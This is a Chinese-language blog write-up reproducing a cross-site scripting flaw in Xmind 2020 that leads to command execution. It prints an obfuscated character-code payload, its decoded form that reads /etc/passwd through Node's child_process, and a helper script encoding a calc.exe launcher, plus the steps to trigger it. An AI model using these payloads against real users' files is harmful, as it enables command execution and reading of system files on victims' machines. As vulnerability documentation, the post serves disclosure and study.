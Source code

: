 # xmind2020存在XSS漏洞可导致命令执行


### 漏洞描述

Xmind2020 存在XSS漏洞，攻击者可利用该漏洞进行命令执行。由于软件允许用户以文件形式或自定义标题标题的形式存储JS代码，攻击者可以发送带有恶意JS代码的文件。用户打开文件后，从而执行攻击者预先设定好的命令。





### 漏洞复现

测试环境：ubuntu18.04、xmind2020



**1.打开xmind后，在思维导图模式下输入以下Payload：**

```javascript
<img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,99,111,110,115,116,32,123,32,115,112,97,119,110,32,125,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,59,10,99,111,110,115,116,32,99,97,116,32,61,32,115,112,97,119,110,40,34,99,97,116,34,44,32,91,34,47,101,116,99,47,112,97,115,115,119,100,34,93,41,59,10,99,97,116,46,115,116,100,111,117,116,46,111,110,40,34,100,97,116,97,34,44,32,100,97,116,97,32,61,62,32,123,10,32,32,32,32,97,108,101,114,116,40,96,115,116,100,111,117,116,58,32,36,123,100,97,116,97,125,96,41,59,10,125,41,59,60,47,115,99,114,105,112,116,62))>
```

解码后数据即为：

```javascript
//Decode Payload
<script>
const { spawn } = require("child_process");
const cat = spawn("cat", ["/etc/passwd"]);
cat.stdout.on("data", data => {
    alert(`stdout: ${data}`);
});</script>
```

![插入payload](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/xmind_payload1.png)



补充知识：

```javascript
// 1.str转unicode序列
var c = "<script>\nvar Process = process.binding('process_wrap').Process;\nvar proc = new Process();\nproc.onexit = function(a,b) {};\nvar env = process.env;\nvar env_ = [];\nfor (var key in env) env_.push(key+'='+env[key]);\nproc.spawn({file:'c:\\windows\\system32\\calc.exe',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});\n</script>"

var codeArr = [];
for(var i=0;i<c.length;i++){
    codeArr.push(c.charCodeAt(i));
}
console.log(codeArr);



// 2.unicode序列还原为str
var n = String.fromCharCode(60, 115, 99, 114, 105, 112, 116, 62, 10, 118, 97, 114, 32, 80, 114, 111, 99, 101, 115, 115, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 98, 105, 110, 100, 105, 110, 103, 40, 39, 112, 114, 111, 99, 101, 115, 115, 95, 119, 114, 97, 112, 39, 41, 46, 80, 114, 111, 99, 101, 115, 115, 59, 10, 118, 97, 114, 32, 112, 114, 111, 99, 32, 61, 32, 110, 101, 119, 32, 80, 114, 111, 99, 101, 115, 115, 40, 41, 59, 10, 112, 114, 111, 99, 46, 111, 110, 101, 120, 105, 116, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 97, 44, 98, 41, 32, 123, 125, 59, 10, 118, 97, 114, 32, 101, 110, 118, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 101, 110, 118, 59, 10, 118, 97, 114, 32, 101, 110, 118, 95, 32, 61, 32, 91, 93, 59, 10, 102, 111, 114, 32, 40, 118, 97, 114, 32, 107, 101, 121, 32, 105, 110, 32, 101, 110, 118, 41, 32, 101, 110, 118, 95, 46, 112, 117, 115, 104, 40, 107, 101, 121, 43, 39, 61, 39, 43, 101, 110, 118, 91, 107, 101, 121, 93, 41, 59, 10, 112, 114, 111, 99, 46, 115, 112, 97, 119, 110, 40, 123, 102, 105, 108, 101, 58, 39, 99, 58, 92, 119, 105, 110, 100, 111, 119, 115, 92, 115, 121, 115, 116, 101, 109, 51, 50, 92, 99, 97, 108, 99, 46, 101, 120, 101, 39, 44, 99, 119, 100, 58, 110, 117, 108, 108, 44, 119, 105, 110, 100, 111, 119, 115, 86, 101, 114, 98, 97, 116, 105, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 58, 102, 97, 108, 115, 101, 44, 100, 101, 116, 97, 99, 104, 101, 100, 58, 102, 97, 108, 115, 101, 44, 101, 110, 118, 80, 97, 105, 114, 115, 58, 101, 110, 118, 95, 44, 115, 116, 100, 105, 111, 58, 91, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 93, 125, 41, 59, 10, 60, 47, 115, 99, 114, 105, 112, 116, 62);

console.log(n);
```



**2.点击大纲。在大纲模式下，选中payload，按下Ctrl+C快捷键触发该Payload，执行`calc`命令。**

![执行成功](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/xmind_attack_ok.png)



### 修复建议

该漏洞在大纲模式下触发，Xmind 2020的使用者，谨慎打开Xmind的大纲模式。





### 参考

[Xmind 2020 - XSS to RCE - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/49827)

[漏洞情报 | Xmind 2020 XSS漏洞导致命令执行 (qq.com)](https://mp.weixin.qq.com/s/JCj4yPN5ORGt1WGc7gpuDQ)

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/xmind2020%E5%AD%98%E5%9C%A8xss%E6%BC%8F%E6%B4%9E%E5%8F%AF%E5%AF%BC%E8%87%B4%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/  

